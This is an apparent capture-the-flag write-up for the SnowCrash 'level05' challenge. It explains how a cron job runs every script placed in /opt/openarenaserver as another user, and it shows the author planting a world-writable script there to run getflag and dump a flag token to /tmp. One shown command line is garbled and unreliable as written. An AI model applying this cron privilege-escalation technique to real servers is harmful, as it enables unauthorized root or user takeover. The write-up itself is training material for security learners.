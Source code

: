 # LEVEL 05

when we log into the level05 a message appear for informing us that there is a message

# in linux server

there is a folder /var/spool/mail where services and daemons that are configured by default to send notifications to root account mailbox

## Vulnerability & exploit

we know that Cron Jobs are used for scheduling tasks by executing commands at specific dates and times on the server.
and the most of time commonly used for sysadmin jobs as backups or cleaning /tmp 

When a script executed by Cron is editable by unprivileged users, those unprivileged users can escalate their privilege by editing this script, and waiting for it to be executed by Cron under root privileges or specific user "flag05" for ex using -c flag .


## Solving the challenge

cron job seems to inform us that he set up a task to run every 2 min
during the following script is run as root:

```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
when we see the script we can understand that using a script the user will loop through all the files in /opt/openarenaserver and run them in a bash shell 

so it's appear that we can create a file in this directory and run it as a flag05  using the crontab and since the script in that directory does not return or print the output of the command because it's execute by a diferent user  we will redirect the output to another file in /tmp/something because all the useres on the server can write or execute script in the tmp file 

		level05@SnowCrash:/opt/openarenaserver$ touch raja.sh
		level05@SnowCrash:/opt/openarenaserver$ chmod 777 raja.sh 
		level05@SnowCrash:/opt/openarenaserver$ vim raja.sh >> getflag >> /tmp/raja
		level05@SnowCrash:/opt/openarenaserver$ cat /tmp/raja
		Check flag.Here is your token : viuaaale9huek52boumoomioc
		